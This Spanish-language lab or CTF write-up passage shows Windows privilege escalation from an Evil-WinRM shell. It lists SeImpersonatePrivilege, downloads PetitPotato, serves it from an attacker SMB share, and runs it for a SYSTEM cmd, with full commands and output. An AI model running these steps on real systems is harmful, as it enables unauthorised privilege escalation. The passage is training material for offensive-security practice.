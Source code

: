 Vemos que privilegios tiene el usuario **hacker** en la máquina:

```bash
*Evil-WinRM* PS C:\Users\hacker\Desktop> whoami /priv

INFORMACIàN DE PRIVILEGIOS
--------------------------

Nombre de privilegio          Descripci¢n                                  Estado
============================= ============================================ ==========
SeMachineAccountPrivilege     Agregar estaciones de trabajo al dominio     Habilitada
SeChangeNotifyPrivilege       Omitir comprobaci¢n de recorrido             Habilitada
SeImpersonatePrivilege        Suplantar a un cliente tras la autenticaci¢n Habilitada
SeIncreaseWorkingSetPrivilege Aumentar el espacio de trabajo de un proceso Habilitada
```

# Escalada de privilegios

Como tiene el privilegio **SeImpersonatePrivilege** habilitado procedemos a hacer la escalada usando alguna de las herramientas disponibles, en este caso **PetitPotato**. Nos descargamos el binario de su github:

```bash
wget https://github.com/wh0amitz/PetitPotato/releases/download/v1.0.0/PetitPotato.exe
```

Para compartir ficheros con la máquina victima creamos un servidor samba en nuestra máquina. Usamos `impacket-smbserver` para crear el server, **-smb2support** para dar soporte a smb2, **kali** es el nombre que le doy al recurso compartido y **.** para compartir lo que tenemos en el directorio actual.

```bash
impacket-smbserver -smb2support kali .               
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

Ejecutamos **PetitPotato** para obtener una **cmd**, pero vemos que persiste:

```bash

*Evil-WinRM* PS C:\Users\hacker\desktop> \\192.168.200.100\kali\PetitPotato.exe 3 cmd

[+] Malicious named pipe running on \\.\pipe\petit\pipe\srvsvc.
[+] Invoking EfsRpcQueryUsersOnFile with target path: \\localhost/pipe/petit\C$\wh0nqs.txt.

[+] The connection is successful.
[+] ImpersonateNamedPipeClient OK.
[+] OpenThreadToken OK.
[+] DuplicateTokenEx OK.
[+] CreateProcessAsUser OK.
Microsoft Windows [Versi¢n 10.0.14393]
(c) 2016 Microsoft Corporation. Todos los derechos reservados.

C:\Windows\system32>
*Evil-WinRM* PS C:\Users\hacker\desktop>
```
